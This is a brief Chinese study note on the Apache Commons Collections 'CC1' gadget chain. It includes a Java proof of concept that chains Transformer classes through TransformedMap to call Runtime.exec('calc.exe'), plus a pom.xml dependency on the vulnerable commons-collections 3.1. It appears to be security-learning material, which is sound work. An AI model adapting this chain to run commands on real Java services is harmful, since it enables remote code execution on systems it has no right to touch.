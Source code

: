 主要由于Transformer接口，产生了各类cc链，TransformedMap中有可利用的函数去触发所需类中的transform函数，利用ChainedTransformer将我们需要的直接利用类打包起来，ConstantTransformer可以通过transform将所需的类返回，InvokerTransformer使用transform将所需的方法和参数封装返回

只能作用于jdk8u以下

```
package com.example.demo;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import java.util.HashMap;
import java.util.Map;
public class CommonCollections1 {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.getRuntime()),
                new InvokerTransformer("exec", new Class[]{String.class},
                        new Object[]
                                {"calc.exe"}),
        };
        Transformer transformerChain = new
                ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        Map outerMap = TransformedMap.decorate(innerMap, null,
                transformerChain);
        outerMap.put("test", "xxxx");
    }
}
```



## 搭建环境

在pom.xml中添加依赖

```
 <dependency>
        <groupId>commons-collections</groupId>
        <artifactId>commons-collections</artifactId>
        <version>3.1</version>
    </dependency>
```

